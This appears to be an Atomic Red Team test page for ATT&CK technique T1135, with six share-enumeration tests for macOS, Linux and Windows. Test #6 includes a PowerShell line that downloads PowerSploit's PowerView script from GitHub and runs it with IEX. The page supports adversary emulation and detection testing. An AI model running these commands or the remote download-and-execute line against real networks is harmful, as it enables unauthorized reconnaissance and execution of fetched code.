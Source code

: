 # T1135 - Network Share Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1135)
<blockquote>Adversaries may look for folders and drives shared on remote systems as a means of identifying sources of information to gather as a precursor for Collection and to identify potential systems of interest for Lateral Movement. Networks often contain shared network drives and folders that enable users to access file directories on various systems across a network. 

File sharing over a Windows network occurs over the SMB protocol. (Citation: Wikipedia Shared Resource) (Citation: TechNet Shared Folder) [Net](https://attack.mitre.org/software/S0039) can be used to query a remote system for available shared drives using the <code>net view \\\\remotesystem</code> command. It can also be used to query shared drives on the local system using <code>net share</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Network Share Discovery](#atomic-test-1---network-share-discovery)

- [Atomic Test #2 - Network Share Discovery - linux](#atomic-test-2---network-share-discovery---linux)

- [Atomic Test #3 - Network Share Discovery command prompt](#atomic-test-3---network-share-discovery-command-prompt)

- [Atomic Test #4 - Network Share Discovery PowerShell](#atomic-test-4---network-share-discovery-powershell)

- [Atomic Test #5 - View available share drives](#atomic-test-5---view-available-share-drives)

- [Atomic Test #6 - Share Discovery with PowerView](#atomic-test-6---share-discovery-with-powerview)


<br/>

## Atomic Test #1 - Network Share Discovery
Network Share Discovery

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | computer1|


#### Attack Commands: Run with `sh`! 


```sh
df -aH
smbutil view -g //#{computer_name}
showmount #{computer_name}
```






<br/>
<br/>

## Atomic Test #2 - Network Share Discovery - linux
Network Share Discovery using smbstatus

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| package_checker | Package checking command. Debian - dpkg -s samba | string | rpm -q samba|
| package_installer | Package installer command. Debian - apt install samba | string | yum install -y samba|


#### Attack Commands: Run with `bash`! 


```bash
smbstatus --shares
```




#### Dependencies:  Run with `bash`!
##### Description: Package with smbstatus (samba) must exist on device
##### Check Prereq Commands:
```bash
if #{package_checker} > /dev/null; then exit 0; else exit 1; fi 
```
##### Get Prereq Commands:
```bash
sudo #{package_installer}
```




<br/>
<br/>

## Atomic Test #3 - Network Share Discovery command prompt
Network Share Discovery utilizing the command prompt. The computer name variable may need to be modified to point to a different host
Upon execution avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net view \\#{computer_name}
```






<br/>
<br/>

## Atomic Test #4 - Network Share Discovery PowerShell
Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host
Upon execution, avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
get-smbshare
```






<br/>
<br/>

## Atomic Test #5 - View available share drives
View information about all of the resources that are shared on the local computer Upon execution, avalaible share drives will be displayed in the powershell session

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
net share
```






<br/>
<br/>

## Atomic Test #6 - Share Discovery with PowerView
Enumerate Domain Shares the current user has access. Upon execution, progress info about each share being scanned will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```






<br/>
